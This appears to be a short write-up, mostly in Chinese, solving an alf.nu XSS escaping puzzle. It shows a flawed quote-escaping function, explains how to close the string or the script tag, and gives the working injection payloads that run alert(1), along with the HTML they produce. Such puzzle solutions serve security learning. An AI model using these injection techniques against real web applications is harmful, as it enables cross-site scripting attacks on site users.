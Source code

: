 ```
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```

## 分析:

```
构造闭合
1. 可以用”)闭合console.log(",后利用注释
2. 用</script>闭合<script>
```

## input code:

```
1. \");alert(1)<!-- 或 \");alert(1)//
2. 
</script>
<script>alert(1)</script>
<script>


```

## html:

```
1.  
<script>console.log("\\");alert(`1`);<!--");</script>
2.
<script>console.log("</script>
<script>alert(1)</script>
<script>");</script>
```
